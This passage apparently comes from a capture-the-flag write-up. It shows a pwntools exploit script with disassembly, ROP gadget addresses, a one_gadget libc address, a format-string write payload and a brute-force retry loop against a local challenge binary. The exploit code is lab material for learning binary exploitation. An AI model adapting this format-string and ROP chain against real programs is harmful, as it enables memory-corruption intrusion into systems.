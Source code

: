 ```
    adc    DWORD PTR [rbp+0x48],edx
    mov    ebp,esp
    call   0x400660 &lt;deregister_tm_clones&gt;
    pop    rbp
    mov    byte ptr [rip + 0x20094e], 1 &lt;0x601048&gt;
    ret

    mov    eax,0x601017
    push   rbp
    sub    rax,0x601010
    cmp    rax,0xe
    mov    rbp,rsp
    jbe    0x400690 
    pop    rbp
    ret   
    '''
    arsp = 0x0400848 #add    rsp,0x8;ret
    prbx = 0x40082A #pop rbx rbp r12 r13 r14 r15;ret
    call = 0x400810 #mov    rdx,r13
                    #mov    rsi,r14
                    #mov    edi,r15d
                    #call   QWORD PTR [r12+rbx*8]
    stderr = 0x601040  #0x7ffff7dd2540
    one= 0x7ffff7afe147#0x7ffff7a52216 0x7ffff7a5226a  0x7ffff7afd2a4 0x7ffff7afe147
    rop=0x6010a0
    payload6 = p64(arsp)*3
    #                   rbx   rbp      r12     r13    r14 r15
    payload6 += flat(prbx,0,stderr-0x48,rop,0xFFD2BC07,0,  0,  call)
    payload6 += flat(adc,0,prbx,0,0,stderr,0,0,0,0x400819)

    sleep(1)
    payload5='%'+str(0x82d)+'c%23$hn'
    payload5=payload5.ljust(0x40,'x00')+payload6

    #bp([0x4007c1])
    sl(payload5)

    it()


if __name__=='__main__':
    while 1:
        try:
            pwn()
        except:
            p.close()
            p=pdbg.run("local")
```



## 3. 补充
